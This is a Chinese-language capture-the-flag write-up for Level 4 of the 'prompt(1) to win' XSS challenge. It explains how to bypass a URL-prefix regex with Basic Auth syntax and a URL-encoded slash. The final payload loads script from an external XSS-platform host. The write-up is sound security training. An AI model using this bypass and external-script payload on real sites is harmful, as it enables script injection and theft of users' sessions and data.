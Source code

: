 ## [[prompt(1) to win](http://prompt.ml)] [[Level 4 - Basic Auth](http://prompt.ml/4)] [[解题报告](http://exp-blog.com/2019/03/18/pid-3635/)]

------

## 题目

```javascript
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}
```

------------

## 解题报告

### 题目分析

这题要要先满足正则条件，才会把我们的输入放到 `<script>` 标签中执行。

换言之若注入成功，得到的 javascript 代码是这样的 `<script src=input />`

问题是若要成功注入，则 input 必须含有这三个固定前缀中的一个：

- `//prompt.ml/`
- `https://prompt.ml/`
- `http://prompt.ml/`

看起来好像无从下手，但实际上这里可以利用 HTTP 的 Basic Auth 认证语法去绕过。


------------

### Basic Auth 语法

当一个网站需要使用 Basic Auth 认证登陆时，若直接访问这个网址，会弹出类似下面这样的要求输入账密的对话框：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/01.png)

Basic Auth 认证方式也允许在访问网站 `http://host `时，直接在 URL 中加上账密，格式为：

`http://username:password@host`

这种用法其实现在也很普遍的，例如 git clone url 就可以这样用。

> 若一个网址不需要 Basic Auth 认证，同样也可以使用这种方式访问，只是输入的账密会被无视而已。

------------

### 绕过正则

回到这题，我们可以把这个固定前缀 `prompt.ml/` 构造成 Basic Auth 的 `username` 部分。

但是 `username` 不允许出现 `/` 符号，可以对其进行 URL 编码，即 `%2f` 。

注意到题目的代码中会对 `input` 做 `decodeURIComponent(input)` 处理后再进行正则校验，因此即使 `/` 符号被 URL 编码也可以通过正则校验。


------------

### 利用 XSS 平台

至此，我们可以先把 input 构造成这样：`http://prompt.ml%2f:pwd@` （密码部分随便即可）

我们看到此时题目的输出为：`<script src="http://prompt.ml%2f:pwd@"></script>`

由于我们构造的 Basic Auth 是无效的，所以这个输出等价于：`<script src="http://"></script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/02.png)

这里我们可以利用 XSS 平台构造一个站点执行 `prompt(1)` ，然后把这个站点地址放到 `<script>` 标签即可。


XSS 平台推荐使用 [http://xss.tf](http://xss.tf) ，新建一个项目，自定义代码为 `prompt(1)` ，得到项目地址： `http://xss.tf/RVO` （注意每个人的项目地址都是不同的）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/03.png)

利用 XXS 平台的项目地址，构造最终的 payload 为：`http://prompt.ml%2f:pwd@xss.tf/RVO`

> 注：
<br/>　　若要追求最短 payload ，密码部分 `pwd` 是可以不要的，但是 `:` 和 `@` 必须保留。
<br/>　　且根据 [相对协议地址](http://blog.httpwatch.com/2010/02/10/using-protocol-relative-urls-to-switch-between-http-and-https/) 原理，`http:` 也是可以不要的。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/04.png)


------------

### 一个 BUG

没错，这题是有 BUG 的，前面构造的这个 payload ，在 Chrome 、Edge、360 浏览器都是无法完成挑战的。

打开浏览器开发者工具的 Console ，发现 XSS 请求被 block 掉了。因为 XSS 请求发不出去，导致无法完成挑战。

最终**只有 Firefox 浏览器可以通过**。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/05.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
